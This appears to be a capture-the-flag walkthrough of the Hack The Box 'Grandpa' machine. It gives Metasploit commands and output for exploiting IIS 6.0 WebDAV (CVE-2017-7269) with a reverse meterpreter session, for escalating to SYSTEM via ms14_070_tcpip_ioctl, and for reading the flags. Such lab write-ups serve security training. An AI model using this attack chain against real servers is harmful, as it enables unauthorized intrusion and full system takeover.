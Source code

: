 ```yaml
---
description: Walkthrough (Easy)
---
```


# Grandpa 🟢🟢🟢

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

[https://app.hackthebox.com/machines/grandpa](https://app.hackthebox.com/machines/grandpa)&#x20;

Grandpa is one of the simpler machines on Hack The Box, however it covers the widely-exploited CVE-2017-7269. This vulnerability is trivial to exploit and granted immediate access to thousands of IIS servers around the globe when it became public knowledge.

### Reconnaissance

```bash
nmap -T4 -sVC 10.10.10.14 -oN Nmap
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

* Found only port 80 is open and running `IIS httpd 6.0`
* Google `IIS httpd 6.0`  got me WebDAV '`ScStoragePathFromUrl'` Remote Buffer Overflow
* Load `msfconsole`  and search for `ScStoragePathFromUrl` &#x20;

```bash
msf6 > use windows/iis/iis_webdav_scstoragepathfromurl
msf6 > set rhosts 10.10.10.14
msf6 > set lhost tun0
msf6 > run
```

### Migrate to stable process&#x20;

{% code fullWidth="false" %}
```bash
meterpreter > ps

Process List
============

PID   PPID  Name               Arch  Session  User                          Path
---   ----  ----               ----  -------  ----                          ----

968  580   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.
2096  392   vssvc.exe
2328  580   wmiprvse.exe
2396  1484  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.e
2464  580   davcdata.exe       x86   0  

meterpreter > migrate 2396
[*] Migrating from 2636 to 2396...
[*] Migration completed successfully.

meterpreter > press(ctrl+z)
Background session 1? [y/N]  y

```
{% endcode %}

### Previlage Esculation

* Need to find any local exploit work on this session.

```bash
msf6 > use post/multi/recon/local_exploit_suggester

msf6 post(multi/recon/local_exploit_suggester) > set session 1
msf6 post(multi/recon/local_exploit_suggester) > run

#   Name                                           Vulnerable?  Check Result
 -   ----                                         -------------  ------------
 1   exploit/windows/local/ms10_015_kitrap0d             Yes      The service is running, but could not be validated.                                                                      
 2   exploit/windows/local/ms14_058_track_popup_menu     Yes      The target appears to be vulnerable.                                                                                     
 3   exploit/windows/local/ms14_070_tcpip_ioctl          Yes      The target appears to be vulnerable.                                                                                     
 4   exploit/windows/local/ms15_051_client_copy_image    Yes      The target appears to be vulnerable.                                                                                     
 5   exploit/windows/local/ms16_016_webdav               Yes      The service is running, but could not be validated.                                                                      
 6   exploit/windows/local/ppr_flatten_rec               Yes      The target appears to be vulnerable.
```

* Tried but best suits `exploit/windows/local/ms14_070_tcpip_ioctl`

```bash
msf6 > use exploit/windows/local/ms14_070_tcpip_ioctl
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > sessions

Active sessions
===============

  Id  Name  Type                     Information                           Connection
  --  ----  ----                     -----------                           ----------
  1         meterpreter x86/windows  NT AUTHORITY\NETWORK SERVICE @ GRANP  10.10.16.6:1234 -> 10.10.10.14:1030
                                     A                                     (10.10.10.14)

msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > set session 1
msf6 exploit(windows/local/ms14_070_tcpip_ioctl) > run

meterpreter > ps

Process List
============
1940  392   alg.exe            x86   0        NT AUTHORITY\LOCAL SERVICE    C:\WINDOWS\System32\alg.exe
1968  580   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.
2328  580   wmiprvse.exe       x86   0        NT AUTHORITY\SYSTEM           C:\WINDOWS\system32\wbem\wmiprvse.
2396  1484  w3wp.exe           x86   0        NT AUTHORITY\SYSTEM           c:\windows\system32\inetsrv\w3wp.e
2464  580   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcda

# Got some SYSTEM process so now migrate to SYSTEM
meterpreter > migrate 2328

meterpreter > shell

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

* Now we are root and have all access over the machine.
* User flag -> C:\Documents and Settings>`type Harry\Desktop\user.txt`
* Root flag -> C:\Documents and Settings>`type Administrator\Desktop\root.txt`

<figure><img src="../.gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>
